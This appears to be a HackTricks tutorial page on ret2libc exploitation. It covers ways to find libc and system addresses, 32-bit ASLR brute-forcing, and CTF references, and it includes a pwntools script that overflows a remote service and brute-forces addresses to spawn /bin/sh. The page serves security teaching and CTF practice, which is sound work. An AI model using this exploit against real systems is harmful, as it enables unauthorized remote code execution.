 # Ret2lib

{{#include ../../../banners/hacktricks-training.md}}

## **Basic Information**

The essence of **Ret2Libc** is to redirect the execution flow of a vulnerable program to a function within a shared library (e.g., **system**, **execve**, **strcpy**) instead of executing attacker-supplied shellcode on the stack. The attacker crafts a payload that modifies the return address on the stack to point to the desired library function, while also arranging for any necessary arguments to be correctly set up according to the calling convention.

### **Example Steps (simplified)**

- Get the address of the function to call (e.g. system) and the command to call (e.g. /bin/sh)
- Generate a ROP chain to pass the first argument pointing to the command string and the execution flow to the function

## Finding the addresses

- Supposing that the `libc` used is the one from current machine you can find where it'll be loaded in memory with:

```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```

If you want to check if the ASLR is changing the address of libc you can do:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

- Knowing the libc used it's also possible to find the offset to the `system` function with:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

- Knowing the libc used it's also possible to find the offset to the string `/bin/sh` function with:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Using gdb-peda / GEF

Knowing the libc used, It's also possible to use Peda or GEF to get address of **system** function, of **exit** function and of the string **`/bin/sh`** :

```bash
p system
p exit
find "/bin/sh"
```

### Using /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![](<../../../images/image (853).png>)

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

## Unknown libc

It might be possible that you **don't know the libc the binary is loading** (because it might be located in a server where you don't have any access). In that case you could abuse the vulnerability to **leak some addresses and find which libc** library is being used:

{{#ref}}
rop-leaking-libc-address/
{{#endref}}

And you can find a pwntools template for this in:

{{#ref}}
rop-leaking-libc-address/rop-leaking-libc-template.md
{{#endref}}

### Know libc with 2 offsets

Check the page [https://libc.blukat.me/](https://libc.blukat.me/) and use a **couple of addresses** of functions inside the libc to find out the **version used**.

## Bypassing ASLR in 32 bits

These brute-forcing attacks are **only useful for 32bit systems**.

- If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

- If attacking a remote server, you could try to **burte-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

## One Gadget

Execute a shell just jumping to **one** specific **address** in libc:

{{#ref}}
one-gadget.md
{{#endref}}

## x86 Ret2lib Code Example

In this example ASLR brute-force is integrated in the code and the vulnerable binary is loated in a remote server:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
    p = ""
    p += p32(off + 0x0003cb20) #system
    p += "CCCC" #GARBAGE, could be address of exit()
    p += p32(off + 0x001388da) #/bin/sh
    payload = 'A'*0x20010 + p
    c.send(payload)
    c.interactive()
```

## x64 Ret2lib Code Example

Check the example from:

{{#ref}}
../
{{#endref}}

## ARM64 Ret2lib Example

In the case of ARM64, the ret instruction jumps to whereber the x30 registry is pointing and not where the stack registry is pointing. So it's a bit more complicated.

Also in ARM64 an instruction does what the instruction does (it's not possible to jump in the middle of instructions and transform them in new ones).

Check the example from:

{{#ref}}
ret2lib-+-printf-leak-arm64.md
{{#endref}}

## Ret-into-printf (or puts)

This allows to **leak information from the process** by calling `printf`/`puts` with some specific data placed as an argument. For example putting the address of `puts` in the GOT into an execution of `puts` will **leak the address of `puts` in memory**.

## Ret2printf

This basically means abusing a **Ret2lib to transform it into a `printf` format strings vulnerability** by using the `ret2lib` to call printf with the values to exploit it (sounds useless but possible):

{{#ref}}
../../format-strings/
{{#endref}}

## Other Examples & references

- [https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html)
  - Ret2lib, given a leak to the address of a function in libc, using one gadget
- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
  - 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
  - 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.
- [https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html)
  - 64 bits, no pie, no canary, no relro, nx. Uses write function to leak the address of write (libc) and calls one gadget.
- [https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html](https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html)
  - Uses a format string to leak the canary from the stack and a buffer overflow to calle into system (it's in the GOT) with the address of `/bin/sh`.
- [https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html](https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html)
  - 32 bit, no relro, no canary, nx, pie. Abuse a bad indexing to leak addresses of libc and heap from the stack. Abuse the buffer overflow o do a ret2lib calling `system('/bin/sh')` (the heap address is needed to bypass a check).

{{#include ../../../banners/hacktricks-training.md}}


